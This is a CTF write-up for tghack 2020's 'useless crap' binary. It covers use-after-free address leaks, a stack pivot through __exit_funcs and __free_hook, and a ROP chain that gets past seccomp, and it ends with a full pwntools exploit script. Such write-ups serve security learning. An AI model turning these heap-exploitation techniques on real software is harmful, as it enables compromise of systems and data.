








tghack 2020 |
Version | v1.0.0 | |
|---|---|---|---|
| Updated | |||
| Author | Seb | Home | |
This was a fun ctf, even though I spent most of my time on a single challenge (called ‘useless crap’). I learned a lot doing this challenge, and thought I would make a writeup because as far as I know (from the 2 places I’ve looked) this is a unique solution to the problem, and has some cool tricks.
From the challenge page we get 3 files- the binary (called
crap), a libc (version 2.31) and a dynamic linker/loader
ld-2.31.so. By running patchelf we see there’s another needed library,
libseccomp.
$ patchelf --print-needed ./crap
libseccomp.so.2
libc.so.6I already had this library in /lib64/, and put a copy in the challenge directory. I used patchelf to set all the needed libraries/linker in order to run the binary
$ patchelf --add-needed ./libseccomp.so.2 ./crap
$ patchelf --add-needed ./libc-2.31.so ./crap
$ patchelf --set-interpreter ./ld-2.31.so ./crapAfter checking the protections enabled with checksec, it
looks like this is a 64bit binary with everything enabled:

When we run the binary, we get a simple menu with 3 options
$ ./crap
1. read
2. write
3. exit
>I then opened up the binary in the cutter disassembler to look at what the options do. At this point I found 2 more options, accessed by sending ‘4’ and ‘5’. Here is a summary of what each do:
calloc(0x501, 1) then filled with
fgets. Additionally, after writing their feedback the user
is asked if they want to keep their feedback. If they answer ‘n’ the
feedback buffer is free()’d, but not set to NULL.
You can only provide feedback once- this is enforced by checking if the
feedback buffer is NULLprintf("%s") on the feedback
bufferexit()It’s nice that the challenge gives us arbitrary r/w for free, now we need some address leaks to work with.
Because of its size, the allocated feedback chunk is placed into the
unsorted bin when free()‘d. This means that its forward and
backward pointers will point inside of main_arena (+96) in
libc. These pointers are written where the user data used to be in the
heap chunk, so if we send menu option ’4’ to view the feedback after
freeing it printf("%s") is called on one of these pointers,
and so we can read the address of main_arena+96 and use
that to obtain the base of libc.
There’s a lot you can do with a libc leak + an arbitrary read, like leaking the address of every other segment in the process memory.
If you look at the binary in gdb and run vmmap, you will
see that the dynamic linker/loader ld program has its own
segment in memory. The value the .text segment is loaded in at will be
stored in this segment.
If you want to check, find the value of the binary base in your gdb
session using vmmap, then use the search functionality
(search in pwndbg or search-pattern in gef) to
search for this value in memory. If found, it will probably be in this
ld.so section
What does this mean? The way ASLR is currently implemented (on Linux) is the shared libraries are grouped in a single ‘block’, and only the start of this block is randomised, not the start of each individual shared library. This means the offset from the base of libc to any point in the shared library block (which includes the ld.so segment) will be constant.
So all we have to do is calculate the offset from the base of libc to the address where the binary base value is stored (in the ld.so segment) and read there. We’ve now leaked the .text segment address and defeated PIE
main_arena will have heap pointers, so you can perform a
read there to leak a heap address.
For the ctf challenge, reading at the leak we are given
(main_arena+96) will give us a heap address.
There is a pointer to the char **envp argument to
main inside libc. In pwntools, the offset to this can be
obtained with libc.symbols['environ']. Reading here will
give us a stack leak, defeating ASLR.
This stack leak isn’t used in the challenge, but it’s cool to know about.
There was another function call in the challenge I haven’t mentioned
yet- in main there is a call to a function called
sandbox, which calls some libseccomp functions. If you
manage to call something like system("/bin/sh") you would
hit a SIGSYS signal, “bad system call” (I tried it)
libseccomp is an API to the kernel’s Berkeley Packet Filter syscall filtering mechanism. Basically, it abstracts the filter language away into a function call based interface and can be used to do things like whitelist which syscalls are allowed and which file descriptions can be read from/written to.
seccomp-tools is a nice tool that can dump the filter rules for seccomp sandboxes. Running it on the challenge binary, we see the following:

The open, close, mprotect, and
exit_group syscalls are allowed without conditions, while
read and write have some checks on the file
descriptor used- specifically, you can only read from fd 0 (stdin) and
write to fd 0 and 1 (stdin and stdout)
Trying to execute other syscalls like execve will result
in a SIGSYS signal stopping the program.
After leaking libc by reading the feedback chunk, we use the ‘read’ option in the menu to read inside the ld.so segment and get a .text leak, as described above.
We can then calculate the address of the integer used for keeping track of write counts and use the ‘write’ menu option to set this value some negative number, effectively giving us infinite arbitrary writes. Now what?
We could set the feedback buffer pointer to NULL, write over
__malloc_hook/__free_hook and call the
set_feedback function again to trigger a
malloc/free call, but what would we put over
the hook? A one_gadget wouldn’t work since execve is
disabled, so it seems like we can’t use this option right now.
We can get exit() called, and I knew that overwriting
the __exit_funcs variable in libc did… something
during exit(). On a whim I went with this to see what would
happen.
First lets look at the disassembly for exit() to get an
idea of what would happen

This loads __exit_funcs as one of the arguments to
__run_exit_handlers (source),
which does the actual heavy lifting. __exit_funcs is
treated as a list of functions to be called, and is normally populated
by calling functions like atexit(), and by default contains
a pointer that points to NULL. We can’t use this variable
to get code execution because of pointer
guard, which obfuscates the function pointers used in this
function.

However, looking at the source code for
__run_exit_handlers there is a call to free()
in the function execution loop. We could get code execution using
__free_hook if we reach this (full disclaimer, I didn’t
think about using the hooks discussed previously in
set_feedback during the challenge, so I thought calling
free from __run_exit_handlers was the only way to reach
__free_hook, however this turned out to be to my
benefit).

If we point the __exit_funcs variable to our feedback
chunk in the heap (which we know the location of because of the heap
leak) we might have some control over how
__run_exit_handlers executes. I did this and called
exit() from the menu
Some amount of dynamic analysis later I found that if you point
__exit_funcs to memory containing 8 bytes of arbitrary data
followed by 8 bytes of zeroes (a NULL ptr) you will hit the call to
free(), with some particularly interesting values in the
registers:

Of particular interest is $rbp- it points to the
__exit_funcs variable in libc (which was set to point to
our heap chunk, but at some point in __run_exit_handlers
this was changed- ultimately this doesn’t matter). At this point I
thought some sort of stack pivot into libc might be possible so I
searched for gadgets, and managed to find this:

This is the magic gadget that allowed me to solve the challenge-
$rsp is set above $rbp but we pop 3 times,
ending up with $rsp pointing to the value right after
__exit_funcs. This is still in a rw segment and we
effectively have infinite writes, so we can place a ROP chain here.
Quick recap on how we got here:
free() will overwrite some user datafree() the chunk and read the feedback to get a libc
leak__free_hook with our stack pivot gadget__exit_funcs with a pointer to our heap
dataexit() with menu option ‘5’->
__run_exit_handlers is called -> free() +
__free_hook is called-> pivot gadget triggers and we
ret to whatever address is stored right after
__exit_funcs.So we have the ability to return to a ROP chain, but what do we do? Looking back at the seccomp rules, we can’t call execve to get a shell. We could open the flag file, but its assigned file descriptor won’t be 0 so we can’t read from it.
We DO have access to the close syscall however, so we
can just close fd 0! If we call open after that to open the
flag file, it will be assigned fd 0, which we can read from according to
the seccomp rules. After that it’s a simple matter of reading the flag
into a buffer and writing it to stdout- challenge solved.
#!/bin/python3
from pwn import *
import angr, angrop
import os
context.arch = "amd64"
c = constants
PROGNAME = "./crap"
# didnt get it working remotely
REMOTE = "crap.tghack.no"
REMOTEPORT = 6001
if args.REMOTE:
p = remote(REMOTE, REMOTEPORT)
else:
p = process(PROGNAME)
e = ELF(PROGNAME)
libc = e.libc
########## Helper functions ##############
# generates our ROP chain
def get_chain(path_buf, flag_buf, base):
r = angr.Project("./libc-2.31.so")
rop = r.analyses.ROP()
gadget_file = ".gadgets-crap"
if os.path.isfile(gadget_file):
rop.load_gadgets(gadget_file)
else:
with open(gadget_file, "wb+"):
pass
rop.find_gadgets()
rop.save_gadgets(gadget_file)
# reference: https://github.com/salls/angrop
chain = rop.write_to_mem(path_buf, b"/flag\x00")
chain += rop.do_syscall(3, [0]) # close fd 0
chain += rop.do_syscall(2, [path_buf, os.O_RDONLY, 0]) # open flag->fd 0
chain += rop.do_syscall(0, [0, flag_buf, 0x100]) # read->flag_buf
chain += rop.do_syscall(1, [1, flag_buf, 0x100]) # write flag_buf->stdout
#print(chain.print_payload_code())
return chain.payload_str(base_addr=base)
def menu():
p.recvuntil('>')
def get_leak(payload):
p.sendline('3')
p.sendlineafter("feedback: ", payload)
p.sendlineafter('(y/n)', 'n')
menu()
p.sendline('4')
p.recvuntil('feedback: ')
leak = p.recvline()[:-1] # trim /n
diff = 8 - len(leak)
leak += b'\x00'*diff # pad to 8 bytes
menu()
return u64(leak)
def write_addr(where, what):
p.sendline('2')
payload = where + " " + what
p.sendlineafter('value:', payload)
menu()
def read_addr(addr):
p.sendline('1')
p.sendlineafter('addr: ', addr)
p.recvuntil('0x', drop=True)
ret = int(p.recvline(), 16)
menu()
return ret
# assume we have enough writes
def write_block(where, what):
# split payload into 8 bytes chunks
n = 8
chunk_list = [ what[i:i+n] for i in range(0, len(what), n) ]
cur_where = where
for c in chunk_list:
p.sendline('2')
diff = 8 - len(c)
c = b"\x00"*diff + c
payload = hex(cur_where) + " " + hex(u64(c))
p.sendlineafter('value:', payload)
menu()
cur_where += 0x8
########## Solution #############
menu()
# leak is at main_arena+96, diff of 0x3b5be0 from base of libc
payload = b'\x00'*0x20 + b'A'*8 + b'\x00'*8
leak = get_leak(payload)
log.info('leaked 0x%x' % leak)
libc.address = leak - 0x3b5be0
free_hook = libc.symbols['__free_hook']
# get heap leak by reading main arena leak
heap_leak = read_addr(hex(leak))
input_addr = heap_leak - 0x1240 # offset in chunk to user data
# binary base in linker at main_arena leak + 0x22e900
bin_base = read_addr(hex(leak+0x22e900))
e.address = bin_base
log.info("binary base at 0x%x" % e.address)
review = e.address + 0x202038
write_count = e.address + 0x202034
read_count = e.address + 202030
# some writable part of memory to put flag path/contents
buf_target = e.address + 0x202050
write_addr(hex(write_count), "-0x500") # get more writes
# mov rsp, rbx; lea rsp, [rbp - 0x10]; pop rbx; pop r12; pop rbp; ret;
pivot_gadget = libc.address + 0xc536b
exit_funcs = libc.address + 0x3b5718
base_addr = libc.address
#get_chain(buf_target, buf_target+0x20, base_addr)
# chain was generated with get_chain() and copied here
# seems to not work if just returned as bytes
chain = b""
chain += p64(0x12c561 + base_addr) # pop rax; pop rdx; pop rbx; ret
chain += p64(0xffff0067616c662f)
chain += p64(buf_target)
chain += p64(0x0)
chain += p64(0x7d597 + base_addr) # mov qword ptr [rdx], rax; ret
chain += p64(0x39000 + base_addr) # pop rax; ret
chain += p64(0x3)
chain += p64(0xc4cc0 + base_addr) # pop rdi; ret
chain += p64(0x0)
chain += p64(0x39049 + base_addr) # syscall
chain += p64(0xc4cc0 + base_addr) # pop rdi; ret
chain += p64(buf_target)
chain += p64(0x221ba + base_addr) # mov esi, 0x415b0007; pop rsi; ret
chain += p64(0x0)
chain += p64(0x12c561 + base_addr) # pop rax; pop rdx; pop rbx; ret
chain += p64(0x2)
chain += p64(0x0)
chain += p64(0x0)
chain += p64(0x39049 + base_addr) # syscall
chain += p64(0xc4cc0 + base_addr) # pop rdi; ret
chain += p64(0x0)
chain += p64(0x221ba + base_addr) # mov esi, 0x415b0007; pop rsi; ret
chain += p64(buf_target+0x20)
chain += p64(0x12c561 + base_addr) # pop rax; pop rdx; pop rbx; ret
chain += p64(0x0)
chain += p64(0x100)
chain += p64(0x0)
chain += p64(0x39049 + base_addr) # syscall
chain += p64(0xc4cc0 + base_addr) # pop rdi; ret
chain += p64(0x1)
chain += p64(0x221ba + base_addr) # mov esi, 0x415b0007; pop rsi; ret
chain += p64(buf_target+0x20)
chain += p64(0x12c561 + base_addr) # pop rax; pop rdx; pop rbx; ret
chain += p64(0x1)
chain += p64(0x100)
chain += p64(0x0)
chain += p64(0x39049 + base_addr) # syscall
write_addr(hex(free_hook), hex(pivot_gadget))
write_addr(hex(exit_funcs), hex(input_addr))
write_block(exit_funcs+0x8, chain)
# call exit->calls __run_exit_funcs->calls free->__free_hook->stack pivot to libc rop chain
p.sendline('5')
p.interactive()
I only managed to solve this locally, I couldn’t figure out what wasn’t working on the remote server- maybe some wrong offset somewhere. Still a fun challenge, which I learned a lot from